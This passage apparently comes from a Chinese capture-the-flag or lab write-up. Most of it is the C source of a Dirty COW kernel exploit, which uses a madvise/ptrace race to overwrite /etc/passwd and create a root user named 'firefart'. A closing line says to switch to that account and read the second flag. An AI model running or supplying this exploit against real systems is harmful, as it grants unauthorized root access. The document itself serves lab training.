       char *plaintext_pw;
    
      if (argc >= 2) {
        plaintext_pw = argv[1];
        printf("Please enter the new password: %s\n", plaintext_pw);
      } else {
        plaintext_pw = getpass("Please enter the new password: ");
      }
    
      user.hash = generate_password_hash(plaintext_pw);
      char *complete_passwd_line = generate_passwd_line(user);
      printf("Complete line:\n%s\n", complete_passwd_line);
    
      f = open(filename, O_RDONLY);
      fstat(f, &st);
      map = mmap(NULL,
                 st.st_size + sizeof(long),
                 PROT_READ,
                 MAP_PRIVATE,
                 f,
                 0);
      printf("mmap: %lx\n",(unsigned long)map);
      pid = fork();
      if(pid) {
        waitpid(pid, NULL, 0);
        int u, i, o, c = 0;
        int l=strlen(complete_passwd_line);
        for(i = 0; i < 10000/l; i++) {
          for(o = 0; o < l; o++) {
            for(u = 0; u < 10000; u++) {
              c += ptrace(PTRACE_POKETEXT,
                          pid,
                          map + o,
                          *((long*)(complete_passwd_line + o)));
            }
          }
        }
        printf("ptrace %d\n",c);
      }
      else {
        pthread_create(&pth,
                       NULL,
                       madviseThread,
                       NULL);
        ptrace(PTRACE_TRACEME);
        kill(getpid(), SIGSTOP);
        pthread_join(pth,NULL);
      }
    
      printf("Done! Check %s to see if the new user was created.\n", filename);
      printf("You can log in with the username '%s' and the password '%s'.\n\n",
        user.username, plaintext_pw);
        printf("\nDON'T FORGET TO RESTORE! $ mv %s %s\n",
        backup_filename, filename);
      return 0;
    }

 切换firefart账户，查看账户权限和文件，读取第二个flag的值。

 ![](https://img2022.cnblogs.com/blog/2834847/202211/2834847-20221111173304982-586205971.png)